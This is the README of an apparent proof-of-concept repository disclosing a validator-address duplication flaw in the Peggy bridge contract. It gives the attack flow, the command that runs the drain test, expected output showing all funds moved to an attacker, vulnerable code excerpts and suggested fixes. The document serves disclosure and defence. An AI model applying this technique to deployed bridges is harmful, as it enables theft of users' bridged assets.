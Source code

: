 # Peggy Bridge Validator Duplication Vulnerability PoC

This project demonstrates a critical vulnerability in the Peggy bridge smart contract that allows an attacker to bypass validator consensus requirements through validator address duplication, leading to complete drainage of bridge funds.

## Vulnerability Overview

**Severity:** Critical  
**Impact:** Complete loss of all bridged assets  
**Root Cause:** Lack of validator address uniqueness validation in `updateValset` and power double-counting in `checkValidatorSignatures`

The Peggy bridge contract fails to validate that validator addresses in a new validator set are unique. An attacker can exploit this by proposing a validator set containing their own address multiple times, then use a single signature repeatedly to amplify their voting power beyond the required threshold.

## Technical Details

### Core Vulnerability

The vulnerability exists in two functions:

1. **`updateValset`** - Accepts validator sets without checking for duplicate addresses
2. **`checkValidatorSignatures`** - Counts voting power for each signature position independently, allowing the same validator's power to be counted multiple times

### Attack Flow

1. **Malicious Validator Set Injection:** Attacker calls `updateValset` with a validator set where their address appears multiple times:
   ```
   validators: [AttackerAddress, AttackerAddress, AttackerAddress]
   powers:     [34%, 33%, 33%]
   ```

2. **Power Amplification:** Once the malicious set is active, attacker calls `submitBatch` providing the same signature three times. The contract incorrectly calculates their power as 34% + 33% + 33% = 100%, far exceeding the 67% threshold.

3. **Fund Drainage:** With amplified voting power, the attacker can unilaterally approve any transaction batch, draining all bridge funds.

## Prerequisites

- [Foundry](https://getfoundry.sh/) installed
- Git

## Setup and Execution

### Clone and Setup

```bash
git clone <repository-url>
cd peggy-poc
forge install
```

### Run the Exploit

```bash
forge test --match-test test_exploitValidatorDuplication -vvv
```

### Expected Output

The test demonstrates a complete bridge drain:

```
--- Initial State ---
Peggy Bridge Balance: 1,000,000 DUMMY tokens
Attacker Balance: 0 DUMMY tokens

--- Attack Step 1: Proposing Malicious Valset ---
Success: Malicious validator set has been approved and is now active.

--- Attack Step 2: Draining Funds with Amplified Power ---
Success: submitBatch executed with a single signature.

--- Final State ---
Peggy Bridge Balance: 0 DUMMY tokens
Attacker Balance: 1,000,000 DUMMY tokens

Vulnerability Confirmed: All funds stolen.
```

## Vulnerability Details

### Affected Functions

**`updateValset` Function:**
```solidity
function updateValset(
    ValsetArgs calldata _newValset,
    // ...
) external whenNotPaused {
    // CRITICAL FLAW: No uniqueness check for validator addresses
    // in _newValset.validators array
    
    bytes32 newCheckpoint = makeCheckpoint(_newValset, state_peggyId);
    checkValidatorSignatures(/* ... */);
    
    // Malicious checkpoint gets saved
    state_lastValsetCheckpoint = newCheckpoint;
}
```

**`checkValidatorSignatures` Function:**
```solidity
function checkValidatorSignatures(
    address[] memory _currentValidators,
    uint256[] memory _currentPowers,
    // ...
) private pure {
    uint256 cumulativePower = 0;
    for (uint256 i = 0; i < _currentValidators.length; i++) {
        // Signature verification passes for duplicate validators
        require(verifySig(/* ... */), "Validator signature does not match.");
        
        // CRITICAL FLAW: Same validator's power counted multiple times
        cumulativePower = cumulativePower + _currentPowers[i];
    }
}
```

### Impact Assessment

- **Complete Fund Loss:** Attacker gains full control over bridge assets
- **Protocol Insolvency:** Bridge becomes unable to honor withdrawal requests  
- **Trust Destruction:** Permanent damage to protocol reputation
- **Operational Shutdown:** Bridge functionality becomes permanently compromised

## Recommended Fix

Implement validator address uniqueness validation:

```solidity
function updateValset(ValsetArgs calldata _newValset, /* ... */) external {
    // Add uniqueness check
    for (uint256 i = 0; i < _newValset.validators.length; i++) {
        for (uint256 j = i + 1; j < _newValset.validators.length; j++) {
            require(
                _newValset.validators[i] != _newValset.validators[j],
                "Duplicate validator addresses not allowed"
            );
        }
    }
    // ... rest of function
}
```

Alternative fix in `checkValidatorSignatures`:

```solidity
mapping(address => bool) validatorCounted;
for (uint256 i = 0; i < _currentValidators.length; i++) {
    if (_v[i] != 0) {
        address validator = _currentValidators[i];
        require(verifySig(/* ... */), "Invalid signature");
        
        // Only count each validator once
        if (!validatorCounted[validator]) {
            validatorCounted[validator] = true;
            cumulativePower = cumulativePower + _currentPowers[i];
        }
    }
}
```

## Files Structure

```
peggy-poc/
├── README.md
├── foundry.toml
├── src/
│   ├── Peggy.sol              # Vulnerable Peggy bridge contract
│   ├── CosmosERC20.sol        # Test token contract
│   └── OwnableUpgradeableWithExpiry.sol
└── test/
    └── Peggy.t.sol            # Complete vulnerability demonstration
```

## Test Details

The proof of concept test (`test_exploitValidatorDuplication`) demonstrates:

1. Initial bridge setup with 1,000,000 test tokens
2. Honest validator set with 3 validators and 67% power threshold
3. Malicious validator set proposal with duplicated attacker address
4. Successful validation bypass using single signature
5. Complete fund drainage to attacker wallet

## Verification

The vulnerability can be verified by:

1. Examining the test output showing 100% fund transfer
2. Checking that only a single validator signature was used
3. Confirming the power threshold bypass mechanism
4. Validating the permanent nature of the exploit

## Disclaimer

This code is provided for educational and security research purposes only. Do not use this exploit against any production systems. The authors are not responsible for any misuse of this information.

## License

MIT License - See LICENSE file for details. 